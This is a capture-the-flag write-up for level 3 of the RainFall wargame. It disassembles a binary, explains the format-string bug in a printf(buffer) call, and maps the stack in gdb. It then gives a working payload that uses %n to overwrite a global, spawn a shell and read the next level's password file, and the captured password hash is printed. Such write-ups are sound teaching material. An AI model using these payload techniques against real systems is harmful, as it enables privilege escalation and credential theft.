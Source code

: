 ## LEVEL 3
---

As usual, I disassemble the binary. You can find the ASM file. [here](./asm/level3.asm).

Here is the most important parts.

```shell
v:
    0x080484a7 <+3>:	sub    $0x218,%esp; Allocate 536 bytes on the stack
    [...]
    0x080484be <+26>:	lea    -0x208(%ebp),%eax ; Load the address of the buffer in eax
    0x080484c4 <+32>:	mov    %eax,(%esp) ; Put the address of the buffer in the stack
    0x080484c7 <+35>:	call   0x80483a0 <fgets@plt> ; Call fgets, and store the result in the buffer
    [...]
    0x080484cc <+40>:	lea    -0x208(%ebp),%eax ; Load the address of the buffer in eax
    0x080484d2 <+46>:	mov    %eax,(%esp) ; Put the address of the buffer in the stack
    0x080484d5 <+49>:	call   0x8048390 <printf@plt> ; Call printf with the buffer as argument
    [...]
    0x080484da <+54>:	mov    0x804988c,%eax ; Load the address of a global value in eax
    0x080484df <+59>:	cmp    $0x40,%eax ; Compare the value with 64.
    0x080484e2 <+62>:	jne    0x8048518 <v+116> ; If not equal, jump to the end of the function
    [...]
    0x08048513 <+111>:	call   0x80483c0 <system@plt> ; Call system with "/bin/sh" as argument
    0x08048518 <+116>:	leave
    0x08048519 <+117>:	ret 
```

The program uses `fgets` to forbid buffer overflow attack on return address. But it does have another vulnerability on `printf` function. It calls `printf` like this `printf(buffer)`, this format is vulnerable to format string attack.

To understand what is a format string attack, you can read [this](../x86_docs/format_string_attack.md).

Before creating the payload, we need to understand how `%n` works in format string because I will use it to change the global variable. Here is a exemple from a website :

```c
#include<stdio.h>
int main() {
   int s;
   int m = 28;
   int val;
   printf("The value of %ns and %nm %nval : ", &s, &m, &val);
   printf("%d %d %d", s, m, val);
   return 0;
}

The value of s and m val : 13 19 21
```

This example demonstrates that `%n` can be used to write a value at a specified address, where the value corresponds to the number of characters preceding `%n`. Now that we have this knowledge, we can proceed to solve this level.

Now it's time to think about how to create the payload.

First, I need to find the address where the buffer is written.
```shell
(gdb) disas v
0x080484be <+26>:	lea    -0x208(%ebp),%eax
0x080484c4 <+32>:	mov    %eax,(%esp)
[...]
(gdb) x $esp
0xbffff510:	0xbffff520
```
Nice, so the buffer is stored at `0xbffff520` and `$esp` is at `0xbffff510`. If you want to display the value at `0xbffff520`, you would need to access `arg[4]` because:
```
arg[0] - 0xbffff520 -> our buffer
arg[1] - 0xbffff51c -> ?
arg[2] - 0xbffff518 -> ?
arg[3] - 0xbffff514 -> ?
arg[4] - 0xbffff510 -> 0xbffff520
```
Here, `arg[0]` will automatically be printed because it is the address sent to `printf`.
So, if you want to print the value at `0xbffff510`, you would write something like this: `printf("TEST%p%p%p%p")`. Let's try it.
```shell
(gdb) r
TEST %p %p %p %p
TEST 0x200 0xb7fd1ac0 0xb7ff37d0 0x54534554
```
Nice, I print the `$esp` to check if what i said was right.
```shell
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x54534554	0x70257025	0x70257025	0xb7fe000a
0xbffff530:	0xbffff588	0xb7fde2d4	0xb7fde334	0x00000007
```
Nice, this is exactly what I predicted. Now, you can try to change the value of a global variable by writing its address instead of `"TEST"`.
```shell
(gdb) disas
=> 0x080484da <+54>:	mov    0x804988c,%eax
(gdb) r
\x8c\x98\x04\x08 %p %p %p %n
Program received signal SIGSEGV, Segmentation fault.
0xb7e7312c in vfprintf () from /lib/i386-linux-gnu/libc.so.6
```
Nice, I encountered a segmentation fault, it indicates that you were able to change the value of the global variable successfully. Since you are unable to verify it with GDB, you can proceed to change the global variable to 64 by writing its address and then providing 60 characters as the fourth argument with python script.
```shell
python -c 'print "\x8c\x98\x04\x08" + "\x90"*60 + "%4$n"' > /tmp/payload
level3@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level4/.pass") | ./level3
�������������������������������������������������������������
Wait what?!
level3@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level4/.pass") | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

*Source :*

*https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf*